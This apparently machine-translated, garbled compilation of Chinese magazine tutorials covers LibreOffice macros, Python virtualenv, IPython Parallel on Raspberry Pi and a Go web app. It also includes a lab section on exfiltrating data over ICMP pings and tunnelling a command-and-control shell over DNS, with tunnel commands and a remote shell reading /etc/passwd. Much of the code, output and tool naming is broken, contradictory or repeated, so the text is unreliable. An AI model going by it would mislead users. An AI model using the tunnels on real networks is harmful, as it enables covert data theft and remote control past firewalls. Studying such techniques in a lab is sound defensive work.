工具栏中有一个快捷键或选项。通过键盘启动宏可能比点击各种菜单（例如，前往“工具” > “自定义...” . .）要快得多。从该表单中，你可以创建一个自定义快捷键组合，但很难将其链接到你的启动（`Start`）宏。最好避免每次启动文档时都重复相同的操作，稍后会让整个过程变得不那么混乱。如果你想将启动宏绑定到菜单中，可以前往“工具” > “自定义...”，在“类别”中选择“宏”，然后双击“宏”来找到它。然后你可以从下拉菜单中选择“工具”，然后点击添加一个名为“启动”的新自定义菜单。之后，你就可以像以前一样从“启动”菜单启动你的宏了。

## 开始编写代码

现在你已经知道如何使用`GUI`录制宏，下一步是开始编写自己的代码。当你输入代码时，在包含代码的不同文件之间进行切换非常不方便。每个文件包含一个模块，在每个模块中你都可以创建子程序。子程序`main`可以在你从任何按键组合或菜单触发它时运行。

查看一些几年前的启动代码

## 错误处理

`LibreOffice Base`具有实用的调试工具用于故障排除，按`F8`可以逐行执行代码。当你不需要这种方式测试、或者满意于留在当前代码处时，使用`Shift-Steps`，或者在任何行添加断点。这意味着你将在该行停止，以便你再次开始逐行执行。高亮一个变量并按键添加“监视”，这会显示其值的变化。

## LibreOffice 中的 VBA？

如果你需要文档被`LibreOffice`和`Microsoft Office`解释，你会发现`Microsoft Office`不支持`LibreOffice Base`。幸运的是，`LibreOffice`对`VBA`有有限支持，但不支持在`Microsoft Office`中创建的应用代码。

```
Option Sub1
```

```
Option Compatible
```

这告诉`LibreOffice`你使用的宏不应解释为原生`LibreOffice Base`，而是尝试将代码转换为完全成功的内容。你的宏将运行多次，并且可能需要一些代码更改才能正常运行。如果你导入的`VBA`导入了自己的对象、对话框，或特定的`Windows`特有功能，那么在`LibreOffice`中将无法正常工作。

相反，如果你正在执行数学运算并从不同的单元格输出结果，或者在`Writer`文档中打印定义的文本，你可能只需要进行微调。

```
Sub Main
Dim LoadFileScale(FileName As String)
Sub LoadNewFile(FileType As String)
Dim Doc As Object, Desktop As Object
FileURL As String = "file://" & FileName

Set Desktop = GetStarService("com.sun.star.desktop")nSet Doc = Desktop.loadComponentFromURL(FileURL, True, Dummy)
End Sub
```


上方：单元格或文本的值可以来自录制的操作，也可以来自自定义的`Basic`代码

`www.libreuser.com` 39

## LibreOffice 教程：自动化 Office任务

更改颜色行为：



```
Sub doMath
Dim sheet As Object, cell As Object
Set sheet = This.Sheets("Sheet1")
cell = sheet.CellPosition(1,2)
cell.Formula = "=5*3"
End Sub
```

在此示例中，`doMath`打开第一个表格，选择单元格`B3`并将其设置为`8`。我们也可以这样做，例如使用`=SUM(A1:A3)`来获取`A1`到`A3`单元格的总和。然而，这并不依赖于`Calc`。你可以通过以下方式调整最后一行：

为了使用`Calc`的内置方法计算多个单元格的总和，你可以在代码中进行此计算：

```
Dim value As Integer
value = cell.Value
value = value + 3
cell.Value = value
```

当从`Main`子程序启动宏时，这会将`B3`单元格的值增加`3`。你也可以根据喜好将`+`替换为`-`或`*`来减去、除以或乘以该值。为了使其更加动态，你可以将数据作为`Integer`参数传递，而不是依赖单元格。

如果你尝试在一个包含类型而不是数字的单元格上运行宏，可能会发生这种情况。

如果你使用`=SUM(A1:A3)`，可能会看到错误。"

## 计算机安全教程

## CompSec: 通过 DNS 和 ICMP 泄露数据

学习如何通过`ICMP`和`DNS`封装你的`shell`和连接来绕过防火墙


`Toni Castillo Girona`

`Toni`拥有软件工程学学位和计算机硕士学位，目前在西班牙加泰罗尼亚地区的一所大学担任技术支持专家。了解更多信息：`upc.ec`。

## 资源

- `ICMP`数据泄露基础 `https://www.nmap.org/book/exfil.html`
- `Metasploit ICMP`泄露模块 `https://github.com/metasploit/metasploit-framework/blob/master/modules/exploit/multi/handler/`
- `ICMP`隧道 `https://bit.ly/tunnel`
- `DNSCat` `https://bit.ly/dnsc`

| 编号 | 时间 | 源 | 目的 | 协议 | 长度 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 4096 | 12:13:57.171 | 192.168.1.161 | 192.168.56.101 | 74 | ICMPv Echo (ping) reply |
| 4097 | 12:13:57.185 | 192.168.1.161 | 192.168.56.101 | 74 | ICMPv Echo (ping) reply |
| 4098 | 12:13:57.199 | 192.168.1.161 | 192.168.56.101 | 74 | ICMPv Echo (ping) reply |
| 4099 | 12:13:57.213 | 192.168.1.161 | 192.168.56.101 | 74 | ICMPv Echo (ping) reply |
| 4100 | 12:13:57.227 | 192.168.1.161 | 192.168.56.101 | 74 | ICMPv Echo (ping) reply |
| 4101 | 12:13:57.241 | 192.168.1.161 | 192.168.56.101 | 74 | ICMPv Echo (ping) reply |
| 4102 | 12:13:57.255 | 192.168.1.161 | 192.168.56.101 | 74 | ICMPv Echo (ping) reply |
| 4103 | 12:13:57.269 | 192.168.1.161 | 192.168.56.101 | 74 | ICMPv Echo (ping) reply |
| 4104 | 12:13:57.283 | 192.168.1.161 | 192.168.56.101 | 74 | ICMPv Echo (ping) reply |
| 4105 | 12:13:57.297 | 192.168.1.161 | 192.168.56.101 | 74 | ICMPv Echo (ping) reply |
| 4106 | 12:13:57.311 | 192.168.1.161 | 192.168.56.101 | 74 | ICMPv Echo (ping) reply |
| 4107 | 12:13:57.325 | 192.168.1.161 | 192.168.56.101 | 74 | ICMPv Echo (ping) reply |


| 4108 | 12:13:57.339 | `192.168.1.161` | `192.168.56.101` | 74 | ICMPv Echo (ping) reply |
| 4109 | 12:13:57.353 | `192.168.1.161` | `192.168.56.101` | 74 | ICMPv Echo (ping) reply |
| 4110 | 12:13:57.367 | `192.168.1.161` | `192.168.56.101` | 74 | ICMPv Echo (ping) reply |
| 4111 | 12:13:57.381 | `192.168.1.161` | `192.168.56.101` | 74 | ICMPv Echo (ping) reply |
| 4112 | 12:13:57.395 | `192.168.1.161` | `192.168.56.101` | 74 | ICMPv Echo (ping) reply |
| 4113 | 12:13:57.409 | `192.168.1.161` | `192.168.56.101` | 74 | ICMPv Echo (ping) reply |
| 4114 | 12:13:57.423 | `192.168.1.161` | `192.168.56.101` | 74 | ICMPv Echo (ping) reply |
| 4115 | 12:13:57.437 | `192.168.1.161` | `192.168.56.101` | 74 | ICMPv Echo (ping) reply |
| 4116 | 12:13:57.451 | `192.168.1.161` | `192.168.56.101` | 74 | ICMPv Echo (ping) reply |
| 4117 | 12:13:57.465 | `192.168.1.161` | `192.168.56.101` | 74 | ICMPv Echo (ping) reply |
| 4118 | 12:13:57.479 | `192.168.1.161` | `192.168.56.101` | 74 | ICMPv Echo (ping) reply |
| 4119 | 12:13:57.493 | `192.168.1.161` | `192.168.56.101` | 74 | ICMPv Echo (ping) reply |
| 4120 | 12:13:57.507 | `192.168.1.161` | `192.168.56.101` | 74 | ICMPv Echo (ping) reply |

* Frame 4096: 241 bytes from wire (192 bytes), 241 bytes captured by `eth0`
* `eth0`, `192.168.56.101` > `192.168.1.161`, ICMP echo request, id 1, seq 1, length 64

`Internet Protocol: 4, Src: 192.168.56.101, Dst: 192.168.1.161, ICMP 8, len 64`

`Type: 0 (echo)`
`Code: 0`
`Checksum: 0xc7d`
`Status: Good`
`Identifier: 1`
`Seq: 1`
`Data: [abcdefghij]`



上面不，这不是一种异常攻击 - ICMP 数据包用于携带 HTTP 流量

## 使用 ping 泄露数据

首先，你需要设置一个 `Debian Linux` 虚拟机。你至少需要一个“主机”网络来执行攻击。确保你可以从 `vbox0` 网络 ping 通到你的主机（参见 `https://bit.ly/lod_tunnel`）。你也可以使用其他工具，甚至使用路由隧道的虚拟机。你的主机将能够接收来自你主机的 ping 数据包（否则 ICMP 隧道将无法工作），并向你的虚拟机发送 ping 数据包。

只要你的网络中有单个流出的 ping 包，你就可以携带数据 - 即使数据包看起来是无害的 ICMP 数据包。系统管理员设置防火墙来阻止 ICMP `echo-request`，但允许类型 0 的 ICMP 数据包（`echo-reply`）。

错误。ICMP 数据包可以携带任意数据，你可以使用 ICMP 绕过防火墙并混淆流量。这种策略对于 DNS 非常常见：对于 DNS 和网络，你可以使用 `UDP` 上的 `DNS` 协议泄露数据。如果合适，你可能通过 DNS 隧道封装一个远程 `shell`！例如，使用以下专用于渗透测试和道德黑客的工具和技术，使用 ICMP 和 DNS 隧道来获取混淆后的包。

```
sudo tunnel -icmp vboxnet0 -x
> <VMIP> and src host <VMIP>
```

在你的虚拟机上，打开终端并向主机发送一个带有 `'deadbeef'` 负载的 ICMP 请求，使用传统的 `ping` 命令及其 `-p` 标志（替换为你的 IP 地址）：

```
ping -c 1 -p deadbeef <HOSTIP>
```

回到你使用 `'deadbeef'` 负载的原因。根据 `ping` 页面（参见 `man page`），你可以指定多达 16 字节来填充负载。我们已经看到 `'deadbeef'` 有效一次。那么，我们如何仅用 `ping` 命令泄露 `'deadbeef'` 呢？哦，那没用。我们可以做得更好。首先，在虚拟机上通过 `sudo install nmap` 安装 `nmap`。然后这次从虚拟机使用 `ping` 泄露，配合你电脑上运行的 `tcpdump` 工具使用。

```
sudo ping -c 1 <HOSTIP> --data "Hi"
```

消息将清晰地显示在你的 `tcpdump` 中：`ping` 很棒，但很难找到方法。如果你想泄露权限，你将无法生存。但你不需要担心，因为无论这是一个 `SETUID` 二进制文件。

## 教程

## 计算机安全


一个通过 DNS 隧道的 Fancy Shell

图 2

```
sh (debian) 3= id
sh (debian) 3= uid=1000(uid) gid=1000(gid) groups=1000(ud),24(cdrom),25(floppy),29(audio),3(dip),44(video),46(plugdev),102(dev),113(padmin),117(scanner) context=unconfined:u:nconfined=_runconfed:t5-so:c0023
```

```
sh (debian) 3= tail /etc/passwd
avahill (debian) 3= plex:112:115:Audiodaemon::/var/run/plx:/bin/false
avahill:debian):118:avahi_dev:/var/run/avahi-daemon:/bin/false
sanet:65534::/var/lib/sandbox/
ud:1000:1000::/home/user/bin
admin:1001:Admin::/home/admin/bash
```

`sh (debian) 3=`

## 与此同时，在你的目标计算机上 ...

```
获取命令 [COMMAND] : request_id: 0x0002 : name: shell
[ WARNING ] Starting: /bin/sh -c
[ WARNING ] Started: (pid: 1057)
响应 [COMMAND]: request_id: 0x0002 : session_id: 05931
```

`共享密钥的 Peer？`

会话已建立！

 在允许网络出站 ICMP 流量之前，你最好考虑两次：来自的意外 ICMP 数据包

```
set BPF_FILTER icmp and src <IP>
```

最后


## Exotic 数据

如果你已经学习了使用 ICMP 和 DNS 进行利用的技巧，但这只是开始。每种协议都有许多可能性。

你处于一个不允许连接到互联网的网络中。然而，你可以 ping 主机并收到回显响应。不需要担心可以逃逸的 ICMP 隧道。通过从你的虚拟机使用 ICMP 隧道，你可以控制（当然）如 `Kali` 所示的多种 ICMP 隧道。在这里查看其仓库：`https://github.com/DhavalKapoor/icmp-tunnel` 以服务器模式启动隧道：

```
sudo icmpunnel <HOST>
```


将二进制文件和客户端脚本上传到虚拟机。使用`icmp-tunnel <SERVER>`连接你的隧道(`tun0`)到虚拟机的网络接口。该行应该像`route add -net 0.0.0.0 dev tun0`。接下来，以客户端模式启动隧道：

```
sudo icmptunnel -client <HOST>
[DEBUG] Starting address being:
192.168.1.50
```

隧道正在运行。现在你将看到所有流量都通过`tun0`虚拟接口路由——这就是隧道。现在像你之前使用`tcpdump`那样获取`ICMP`数据包，在虚拟机上打开浏览器浏览某些页面？

```
cat /root/mock/FILE-
> -d "base64 -decode"
```

通过`ICMP`泄露文件是简单的。但你可能需要执行更复杂的操作，例如封装非`ICMP`流量以绕过防火墙，或混淆流量以隐藏`ID`。


你拥有`MP`隧道上的互联网连接，你的`tcpdump`命令将显示来自虚拟机大量的`HTTP`流量，封装在数据包负载中。很有用吧？

## 接下来？

### 旧的，新的

### 在 DNS 上产生一个 shell

```
session -i 2
sh (debian) >
```

`ICMP`隧道很棒，`DNS`隧道也是如此！（参见资源 2）。你通常可以使用`DNS`在`DNS`协议上执行任何命令和控制(`C&C`)通道。可能在本地使用`discat2`客户端产生`shell`，或者在受攻击的系统中产生，使其在隧道到你的域名服务器——`C2`服务器时执行合法的解析。

## 漏洞日记

Tobias Klein

No Press 出

你可以通过`DNS`连接运行任何命令（见图 2）。执行`tcpdump`查看来自虚拟机的流量；如你所见，流量是加密的。它是使用相同的密钥加密的。如果你使用相同的密钥退出，运行`list <SESSIONID>`。你可以通过运行`sessions`获取已建立会话的列表。


关于技术，当你写完脚本，它几乎立即被渲染。哇。现在有些书籍可能关于时间，而另一些特意写得像那样。猎人日记是安全领域非常奇的读物。在这里你将学习发现它的漏洞。尽管操作系统和方法已经发生了，但某些技术在今天仍然适用。`ROP`（面向对象的编程）现在似乎会单独失败。

一旦你建立了一个`DNS`计算机来在隧道上封装任何类型的`TCP`流量。对于绕过防火墙以及从内部网络访问与受攻击系统在同一网络上的本地设备是理想的。这就像访问防火墙后的本地`SSH`服务器。我们已经能够构建连接并且你使用`discat`客户端

`discat2`被红队用于在`DNS`上创建加密的命令控制通道，`DNS`服务器也是可用的，这是最简单的开始方法。

那么在本地尝试`discat2`：

```
git clone https://github.com/ldera/discat2
接下：make discat2 server --bind 0.0.0.0:53
```

确保你允许来自虚拟机的`dns`查询 -`ipt: INPUT -p udp --dport 53 -j DROP`。如果你有受攻击系统的秘密密钥来保证加密。

-- 在虚拟环境中不需要`--user`命令，`virtualenv`将库缓存重定向到本地文件夹，确保“全局”安装尝试不会跳出虚拟环境的限制。

## 使用 2.7 版本工作

`Python`的版本之间在很大程度上是兼容的。主要的关注点是`Python 2.7`，它与`Python 3x`的兼容性良好。`Python`解释器无法安装在虚拟环境中；相反，它们被安装在全局。在`Ubuntu 18.04`上，可以使用以下命令安装`Python 2.7`：

```bash
tanmahan:~/workspace$ sudo install python-2.7-pip
```

运行这些命令可以同时使用`python`和`python3`。可以通过输入`--version`参数将命令关联到解释器版本：

```bash
tanmahan:~/workspace$ python --version 2.7.15
tanmahan:~/workspace$ python3 --version 3.6.8
```

每个`Python`分发版应该与其他解释器配合使用。遗憾的是，该功能直到`3.3`版本才引入，这意味着处理`Python 2.7`时需要一种不同的方法：因为`virtualenv`的内存需求较低。传统的`virtualenv`通常占用约`20MB`，而`venv`在处理一两个版本时可能功能较少，但如果每个程序都有自己的环境，那么`venv`将是必要的。

## 导出环境

创建虚拟环境可以将你的程序及其库与主机环境隔离。它们还可以以某种方式与朋友和同事共享。同样，使用`pip freeze`并在一个模块上提取也应该是行的。更安全的方法是从`pip freeze`开始创建所有安装库的列表：

```bash
pip freeze > requirements.txt
```

之后，在新虚拟环境中打开`requirements.txt`并使用`pip -r`安装库。运行`pip freeze`会提供环境中安装的所有模块列表。`pip freeze`的输出可以被其他安装读取。以下命令会在当前目录下创建一个文件，从而节省时间：

```bash
tanmahan:~/workspace$ sudo install virtualenv
```

`virtualenv`是虚拟环境的独立版本，行为方式类似。可以通过`--python`参数指定要使用的`virtualenv`来创建一个`Python 2.7`虚拟环境：

```bash
tanmahan:~/workspace$ --python=/usr/bin/python2 /home/tanmahan/workspace2/bin
```

配置好后，基于`virtualenv`的环境的行为与`virtualenv`工具类似。例如，可以通过这种方式完成激活：

```bash
tanmahan:~/workspace$ source bin/activate
```

```bash
(workspace) tanmahan@~/workspace2$ virtualenv <env_name>
$ source bin/activate <env_name>
```

它们之间的区别在于，由于目标机器使用了相同的`Python`版本，它们通常可以在没有大问题的情况下工作。问题是由第三方代码引起的——访问操作系统可以自由地获取进程控制。没有理由不使用`venv`或类似的系统。

## 过度设计

硬件资源可用性的提高将容器环境转换为虚拟环境。程序从底层系统安装得非常好，使用`Docker`中可用的`Python`版本之一是提供了一个极具吸引力的替代方案。(img/0632f0e1d4d0e5b78061a5103897f51_46.png)

## IPython Parallel

## 在你的 Pi 上使用 IPython 运行并行代码

在树莓派网络上运行并行代码有很多方法——这里是最好的方法之一：(img/0632f0e1d4d0e5b78061a5103897f51_47_0.png) (img/0632f0e1d4d0e5b78061a5103897f51_47_1.png)

**Joey Bernard**

`Joey`是一个负责科学软件报道以及为树莓派编写`Python`代码的人。在主工作中，他帮助大学级别的研究人员和学生在超级计算机集群上设计和运行`HPC`（高性能计算）项目。

## 资源

- [IPython Parallel](https://ipython-parallel.readthedocs.io/en/latest)

- [Berryconda](https://github.com/berryconda/berryconda)

树莓派提供了一个非常强大且高效的计算包。虽然它的便携使其成为移动应用程序开发的绝佳平台，但在本期中，我们将查看如何在树莓派网络上运行并行代码。具体来说，我们将展示如何使用`IPython`建立树莓派集群，以及如何使用`192.168.0.2-254`范围内的静态`IP`地址在集群上运行并行代码，因为这些地址是保留给内部网络使用的。

你将首先在物理上连接树莓派。这可以通过小型交换机或同一个路由器实现。在文章其余部分，我们将假设所有树莓派都有静态地址。从这里开始，我们转向设置集群并实际运行作业。你将拥有你所知的最安静、最高效的超级计算机集群。

## 入门指南


IPython——通常被称为其简短名称`ipparallel`——是一个 Python 模块，它添加了运行多个 IPython 引擎并让它们通信的能力。这些引擎可以运行在单机上，但为了最大化你的计算量，它们可以运行在单独机器上。IPython 构建在包含三个部分的较大结构之上：控制器或一个或多个引擎。引擎是实际运行你的 Python 代码的 IPython 内核。在我们的设置中，这些引擎将分布在连接的树莓派上。客户端是连接到引擎并请求计算的程序。控制器是你 IPython 集群的核心，它实际上由一个中心（hub）和更多的管理器组成。管理器处理所有部分之间的通信并管理分配给它们的工作。

## 安装 IPython parallel

第一步是在你的树莓派上安装 IPython。它不太可能出现在你正在使用的发行版的包仓库中，因此在大多数情况下，你需要使用`pip`安装它——这意味着在基于 Debian 的发行版（如 Raspian）中需要使用以下命令安装`pip`：

```bash
sudo apt-get install python-pip
```

如果你使用的是 Python 3.x，你将需要使用`pip`安装。安装完成后，你可以执行以下操作：

```bash
pip install ipparallel
```

## 设置主节点

树莓派节点在代码中被配置为客户端。你需要进行配置，以便它们知道控制器运行在哪里。它们也可以用于与控制器进行身份验证。文件是`/home/berryard/ipython/default/security/ipcontroller_engine.py`。你可能需要将此文件复制到树莓派的目录。

```bash
ipython --file=path/to/ipcontroller-engine.json
```

## 使用配置文件

引擎也使用配置文件，就像控制器一样。你可以为特殊用例创建特殊的配置并与控制器类似的布局。引擎可以使用配置文件。这是目录下的`ipyengine_config.py`文件。你可以配置诸如启动运行的任务，如下所示：

```python
# ipyengine_config.py
c.IPEngineApp.start_command = 'import
numpy, sticky'
```

- 保留控制文件：默认情况下，控制器 JSON 文件在控制器运行时保存。如果你想保存这些文件，可以在控制器命令中添加以下选项。否则，每次重启集群时都需要更新 JSON 文件。

## IPython Parallel 教程



如果你打算进行科学计算，这将是一个很好的选择。请阅读相关文档以了解有关引擎的使用。

### 使用 MPI

如果你愿意，可以配合 MPI 使用`mpi4py`。对于熟悉计算的人来说，你可以为任何在高性能计算集群上做过并行编程的人选择该选项。你既可以使用`--engine=mpi`将`SetLauncher`设置为`iticluster`，也可以显式地跨网络启动进程。

现在你的集群已经建立并运行了，如何使用它呢？我们需要为引擎编写一个“Hello World”部分。使用以下代码初始化你的并行环境：

```python
import ipyparallel as pp
client = c.Client()
```

这在在主节点上运行应该是可以工作的。如果你实际上在另一台机器上运行，你将需要将导入部分指向`Client`。如果你的网络配置要求，可以使用 SSH 连接。你可以通过以下代码验证`Client`对象是否可以看到任何引擎：

左侧`ippparallel`使用一个控制器构建的，管理着几个独立的引擎

现在你已经有一个可以工作的`ipyparallel`，如何使用它呢？如果你在另一台机器上做过任何类型的并行编程，你可能习惯了分发代码和收集结果的工作。第一步是创建一个`DirectView`对象，如下代码所示：

```python
dview = c[:].
```

```python
c.ids
[0,1,2]
```

```python
c[0].apply_sync(lambda: 'Hello World')
## ['Hello World', 'Hello World', 'Hello World']
'Hello World'
```

在这个示例中，我们让集群计算 10 的 64 次方。

```python
dview.scatter('x',range(64))
引擎上的并行执行：
[i**6 for i in x]
[0, 1, 2]
```

这是假设你的四个引擎已经启动。你可以调用引擎的“Hello World”部分属性。

如你所见，你可以从`Client`对象列出所有 ID 并调用`sync()`，其中在应用的函数中处理一个 lambda 函数。该 lambda 函数返回字符串 'Hello World'。如果你没有运行任何问题，你应该可以进入更有成效的工作。

如你所见，我们创建了一个包含 64 个整数的列表并使用变量`x`将它们聚类。第二行使用`map`执行简单的 Python 函数`y`。`ipparallel`有有一系列魔法命令，类似于`ipparallel`。以下代码获取从此并行运行的结果：

```python
y = dview.gather('y')
```

```python
[0, 1, 10, 100, 104856, 9765625, 6046676, 28475249, 103741724]
```

这从远程变量收集结果并将其存储在本地`y`中。代码的一个问题是所有工作简单地分给了各个引擎。如果一个或多个引擎比其他引擎快，它可以从较慢的引擎中提取工作。如果这在你的情况下可能是结果，你可以使用平衡视图（balanced view）而不是直接视图（direct view）来管理工作。

左侧 你的`ipparallel`集群在 Jupyter Notebook 中可见，列在界面的“IPython Clusters”标签页中



被发送到引擎。你可以通过以下代码获取此视图：

```python
Iview = c.load_balanced_view()
```

当你遇到需要等待结果完成计算的点时，这可以让你的终端用户知道工作仍在进行中。

使用这个平衡视图，你可以通过以下代码复制示例。第一行告诉`ipparallel`阻塞，直到所有结果都被计算并返回。第二行使用平衡视图的`map`方法来获取发送的任务的幂运算工作。

### 从 Jupyter 连接

所有结果都已计算并返回。第二行使用平衡视图的`map`方法获取发送的任务的幂运算工作。

如你所见，你可以从`Client`对象列出所有 ID 并调用`sync()`，其中在应用的函数中处理一个 lambda 函数。该 lambda 函数返回字符串 'Hello World'。如果你没有运行任何问题，你应该可以进入更有成效的工作。

如你所见，我们创建了一个包含 64 个整数的列表并使用变量`x`将它们聚类。第二行使用`map`执行简单的 Python 函数`y`。`ipparallel`有有一系列魔法命令，类似于`ipparallel`。以下代码获取从此并行运行的结果：

所有结果都已计算并返回。第二行使用平衡视图的`map`方法获取发送的任务的幂运算工作。

需要注意的是，当你使用`apply`时，当你遇到需要等待结果完成计算的点时，这可以让你的终端用户知道工作仍在进行。

默认情况下，`ipparallel`一次处理一个任务。如果你在另一台机器上做过任何类型的并行编程，你可能习惯了分发代码和收集结果的工作。第一步是创建一个`DirectView`对象，如下代码所示：

所有结果都已计算并返回。第二行使用平衡视图的`map`方法获取发送的任务的幂运算工作。

代码的一个问题是所有工作都简单地分给了各个引擎。如果一个或多个引擎比其他引擎快，它可以从较慢的引擎中提取工作。如果这在你的情况下可能是结果，你可以使用平衡视图（balanced view）而不是直接视图（direct view）来管理工作

如你所见，你可以从`Client`对象列出所有 ID 并调用`sync()`，其中在应用的函数中处理一个 lambda 函数。该 lambda 函数返回字符串 'Hello World'。如果你没有运行任何问题，你应该可以进入更有成效的工作。

需要注意的是，当你使用`apply`时，当你遇到需要等待结果完成计算的点时，这可以让你的终端用户知道工作仍在进行。

## IPython 教程

## 教程 IPython

## 教程

## 图 1


```go
func getErrorMessage(query url.Values) string {
    errorType := query.Get("error")
    switch (errorType) {
    case "found":
        return "ID " + query.Get("id") + " not found."
    }
    return ""
}
```

```go
videoList, _ := getAvailableVideos()
renderTemplate(writer, "home", videoList)
```

现在，尽管我们不仅想传递视频列表，还想传递接收到的错误消息，但向 `renderTemplate` 函数传递多个部分信息的方法是使用`匿名结构体`。我们想要创建一个包含两个字段的结构体——一个用于视频列表，另一个用于错误消息——但我们要在即时定义它，而不是在文件顶部定义。

你可以从图 2 中了解其语法，它创建了一个包含 `List` 和 `ErrorMessage` 两个字段的结构体，并用 `videoList` 和 `ErrorMessage` 变量填充它们。我们需要进入处理函数内部，并添加一些代码来从请求 URL 中提取错误消息：

```go
errMessage := getErrorMessage(request.Query())
```

然后，我们需要将错误插入到图 2 中，因为 `videoList` 和 `ErrorMessage` 变量在这个结构体变量中。最后，我们需要修改函数末尾对 `renderTemplate` 的调用，以便传递两部分数据而不仅仅是视频列表。

如果你想以红色或带有红色背景显示错误消息，可以添加一些 CSS 样式。你可以通过 `go run lubube.go` 测试代码，并访问 URL `http://localhost:8080/?error=found&id=blahblah`。你应该能在页面上看到该消息。

在 `url.Values` 之上是一个处理 URL 查询的特殊键值对结构。

```go
renderTemplate(writer, "home", data)
```

```go
http.Error(writer, "/error=notfound&id=" + id, http.StatusNotFound)
```

最后一步是修复主页的 HTML 模板，使其显示两个部分的数据。

我们用以下内容替换它，这将自动重重回主页并显示错误消息：

```go
http.Redirect(writer, request, "/error=notfound=" + id, http.StatusOK)
```

> 向 `renderTemplate` 函数传递多个部分信息的最佳方法是使用匿名结构体。之前，我们只传递了 `videoList`，我们可以在模板中这样引用它：

```html
{{ range .List }}
{{ end }}
```

现在我们正在使用结构体，所以我们需要通过它的名称引用视频列表：

```html
{{ range .VideoList }}
```

最后，我们需要在某处插入一些 HTML 代码来显示错误消息：

```html
<p class="error-message">{{.ErrorMessage}}</p>
```

新的 HTTP 状态将显示重定向到主页，而不是“未找到”的链接。如果你再次运行代码，我们将能够导航到 URL `http://localhost:8080/`，服务器将把我们重定向回主页，在那里将显示错误消息。

## 错误处理

现在我们有了一个报告机制，我们应该检查代码并确保我们正在正确地处理错误消息，而不是直接返回它们。我们已经完成了任务，并为你提供了几点建议帮助你完成。我们建议你将错误向上层调用栈传递。这有点像在 Java 中调用，区别在于在 Go 中我们不返回值。这在实践中意味着几乎每个函数都应该返回一个 `error` 类型的值以及它的返回值。当函数成功返回时，如果我们不仅在使用结构体，我们可以匿名地声明它。其格式如下：

## 图 2

```go
data := struct {
    VideoList []Video
    ErrorMessage string
}{
    VideoList,
    ErrorMessage,
}
```

在返回值中，当我们调用一个可以返回错误的函数时，我们应该检查该错误并在必要对其进行重构。这意味着要编写大量的样板代码：

```go
value, err := someFunction()
if err != nil {
    return nil, err
}
```

每当我们调用函数时，Go 中的样板编程：与处理方式更简洁的语言相比，优势在于清晰地知道发生了什么。当然，如果有明显的方法可以立即处理错误，我们不需要对其进行重构，可以使用类似这样的代码：

```go
value, err := someFunction()
if err != nil {
    // 处理错误...
}
```

## 图 3

```go
resp, err := http.Get("http://127.0.0.1:8080")
if err != nil {
    fmt.Printf("Error connecting: %v\n", err)
    return
}
defer resp.Body.Close()
fmt.Printf("Received %d bytes\n", resp.ContentLength)
```

对于我们的目的，我们需要处理网络设备。如果你正在使用 Wi-Fi 连接，你通过任何栈查找的设备最终都需要处理所有这些错误。对于我们的目的，`handler.HandleFunc` 期望接收一个返回错误的函数，所以我们的处理器和处理函数应该返回错误消息。如果你遵循了我们的指南，这些函数将返回值。

# 广播到服务器

为了构建设备集合，你可能想让你的朋友连接并接收你的文件。为了做到，第一步是找到你的公网 IP：你可以通过运行以下 `curl` 命令找到你的 IP 或端口：

```bash
$ upnpc -a 192.168.1.5:8080 8080
```

如果你在路由器后面，你需要配置端口转发。首先，运行上面的命令。如果你看到本地 IP，请检查每个所需设备的章节。我们寻找的是公网 IP：在这种情况下是 192。下一步是处理端口转发，端口转发是由名为 `MininP` 的程序处理的。你可以从 `http://upnp.fr` 下载并安装。一旦安装，打开终端连接到 `8080`。公网 IP 是 `200.90.47`，你可以访问你的网站。

如果有明显的方法可以立即处理错误，我们不需要对其进行重构。这意味着我们不再传递处理器和处理函数；相反，一个名为“错误处理器”的函数返回一个返回错误的函数。

## 图 4


`LU-Tube`

面向 Linux 用户的视频共享网站 `ID` 黑色。

### 上传视频

我们使用 HTML 模板。这创建一个用于主页的对话框。

## 图 5

```go
func uploadHandler(w http.ResponseWriter, r *http.Request) error {
    if err != nil {
        http.Redirect(w, r, "/error=notfound=" + id, http.StatusOK)
    }
    return
}
```

